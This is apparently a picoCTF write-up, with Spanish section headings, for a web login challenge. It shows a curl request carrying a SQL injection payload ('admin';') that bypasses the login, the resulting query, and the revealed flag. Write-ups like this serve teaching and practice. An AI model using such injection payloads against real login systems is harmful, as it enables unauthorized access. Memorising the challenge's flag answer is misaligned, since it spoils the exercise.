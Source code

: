 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
## Solución
```bash
# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}

```

```bash
victormcm-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>victormcm-picoctf@webshell:~$ 
```
## Notas Adicionales

## Referencias
